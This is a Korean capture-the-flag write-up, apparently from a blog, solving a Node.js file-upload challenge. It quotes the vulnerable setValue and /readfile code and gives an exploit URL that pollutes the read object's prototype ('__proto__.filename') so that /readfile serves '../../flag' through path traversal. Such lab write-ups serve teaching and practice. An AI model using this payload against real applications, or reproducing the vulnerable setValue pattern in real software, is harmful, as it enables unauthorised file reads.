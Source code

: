 <h1>1. 웹페이지 접속</h1>

 

파일이름과 파일내용을 입력할 수 있는 공간과 send 버튼이 있습니다. 임의의 내용을 입력해서 send 해보면

 

다음과 같이 출력됩니다.

 


 

파일 이름을 abc 로 넣었는데 출력되는 파일 이름은 암호화되어 출력됩니다. 여러 방식으로 복호화 해본 결과 파일 이름을

 

sha256 방식으로 암호화한것을 알 수 있습니다. 이 이상은 웹페이지에서 알아낼 것이 없다고 판단되어 문제에서 주어진

 

소스코드를 분석하였습니다.

 

 

2. 소스코드 분석
이 웹사이트는 Node.js 로 작성되었습니다. 파일 이름이 출력되던 mkfile 엔드포인트 이외에도 /readfile, /test 엔드포인트도

 

존재합니다. 

 

* 취약한 소스코드


app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet"); 
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
 

/test 에서 취약점이 발견되었습니다. func=='rename' 일 때 호출되는 setValue 함수입니다.

 

 

* setValue 함수


function setValue(obj, key, value) {
  const keylist = key.split('.'); 
  const e = keylist.shift(); 
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {}; 
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
 

 

이 함수는 대표적인 프로토타입 오염에 취약한 함수입니다.

프로토타입 오염 (Prototype Pollution)

 
프로토타입 오염 (Prototype Pollution)

1. 프로토타입? 자바스크립트에서 모든 객체들이 메소드와 속성을 상속 받기 위한 객체 객체를 생성할 때 기본적으로 상속되며 여러 메소드를 포함합니다. 새로운 인스턴스가 생성될 때, 생성된

ajy1120.tistory.com
 

프로토타입 오염은 Node.js 에서 발생하는 취약점으로 프로토타입 기반 언어인 자바스크립트에서 발생하는 취약점입니다.

 

 

3. 익스플로잇
/test의 setValue 함수를 호출하기 위해 다음의 URL 을 전달하겠습니다.

 


/test?func=rename&file=read&filename=__proto__.filename&rename=../../flag
 

그러면 setValue(read, __proto__.filename, ../../flag) 함수가 호출됩니다. 이 함수가 실행되면 read 객체의 프로토타입

 

의 filename 속성값을 임의의 값으로 지정할 수 있습니다. 그리고 func=reset 값을 전달하여 read 객체를 다시 초기화하면

 

read 객체의 filename 값이 임의의 값으로 오염됩니다.

 

filename 속성값을 오염시킨 이유는 다음의 코드를 이용하기 위해서입니다.


app.get('/readfile',function(req,resp){ 
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data); // response.send
		})
	}else{
		read[filename]=filename.replaceAll('.',''); 
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
 

위의 코드를 보면 filename 변수에 GET 방식으로 받은 값을 저장하고 filename 값이 null 값이면 read 객체의 filename

 

속성값을 그대로 사용하여 파일을 불러옵니다. setValue 함수를 실행하여 filename 속성값을 오염시켰기 때문에

 

/readfile 에 접근할 때 아무런 값도 전달하지 않는다면 read['filename'] 값을 그대로 가져오게되어 

 

/storage/../../flag 경로에 접근하여 파일을 불러오게 됩니다. 

 


 

flag를 획득하였습니다.
